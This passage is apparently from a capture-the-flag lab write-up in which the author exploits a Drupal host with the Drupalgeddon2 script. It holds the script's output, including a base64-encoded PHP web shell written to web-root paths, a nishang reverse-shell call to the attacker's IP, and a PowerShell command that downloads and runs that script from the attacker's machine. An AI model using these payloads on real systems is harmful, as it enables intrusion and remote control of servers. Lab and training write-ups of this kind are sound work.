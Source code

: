 ```none
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>>
```

Notice how above, I was able to execute the `whoami` command which returned `nt authority\iusr` which looks like some windows user. Since I figured I was on a windows machine, I mirrored a copy of `Invoke-PowerShellTcp.ps1` from the [nishang](https://github.com/samratashok/nishang) post exploitation framework to escalate to an interactive powershell session.

I appended the following line to my `Invoke-PowerShellTcp.ps1` script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 2001
```

Via remote code execution with the drupalgeddon exploit script, I downloaded and executed the `Invoke-PowerShellTcp.ps1` script from my kali machine:

```none
drupalgeddon2>> powershell -Command "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')"
```
